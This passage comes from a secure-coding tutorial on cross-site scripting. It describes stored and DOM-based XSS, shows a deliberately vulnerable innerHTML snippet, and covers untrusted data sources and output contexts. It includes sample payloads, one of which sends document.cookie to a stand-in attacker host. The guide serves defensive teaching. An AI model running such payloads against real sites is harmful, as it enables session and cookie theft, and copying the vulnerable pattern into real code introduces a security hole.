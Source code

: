 An attacker could post a comment containing malicious JavaScript. Anyone viewing the post would execute this code, even long after the attack was planted. This makes stored XSS particularly dangerous.

### DOM-based XSS

DOM-based XSS occurs client-side, when JavaScript on the page processes data from an untrusted source (like the URL) and writes it to a dangerous DOM sink (like innerHTML). Example:

```javascript
// Client-side JavaScript
// Get 'name' from URL: https://example.com/page?name=Bob
const name = new URL(location.href).searchParams.get('name');
// Vulnerability: writing URL data directly to innerHTML
document.getElementById('greeting').innerHTML = 'Hello, ' + name;
```

An attacker could exploit this with a URL like:
```
https://example.com/page?name=<img src=x onerror=alert('xss')>
```

The vulnerability exists entirely in the frontend JavaScript - the server might not even be involved.

## Beware Untrusted Data

XSS vulnerabilities occur when untrusted data (potentially controlled by an attacker) makes its way into webpage content. Common sources include:

- URL parameters: Attackers can craft malicious links, e.g. `example.com/search?q=<script>fetch('https://attacker.com/steal?c='+document.cookie)</script>`
- Form fields: Any user input could contain script tags or malicious attributes
- User-generated content: Comments, posts, and profiles are common XSS vectors

However, you must take care with *any* data that may be controlled by an untrusted third party. This includes data that may not come from a typical web page, such as [in-game chat messages](https://hackerone.com/reports/409850), [car configuration](https://www.securityweek.com/tesla-awards-researcher-10000-after-finding-xss-vulnerability/), and [WiFi network names](https://bugs.kde.org/show_bug.cgi?id=423020).

The attack payload may not even be text. For example, imagine a website that processes driver's license photos using OCR (Optical Character Recognition) to extract the name and other fields. If an attacker uploads an image of a fake license with XSS code where the driver's name should be, they might be able to execute JavaScript when an administrator views the extracted data.

## XSS Contexts

The XSS payload might come from anywhere, but XSS only happens when improperly _displaying_ untrusted data. The proper method for avoiding XSS depends on the context in which we are trying to use untrusted data.

### HTML Content Context

This is when data appears between HTML tags, as text content. Browsers will parse any HTML tags or entities in this context.
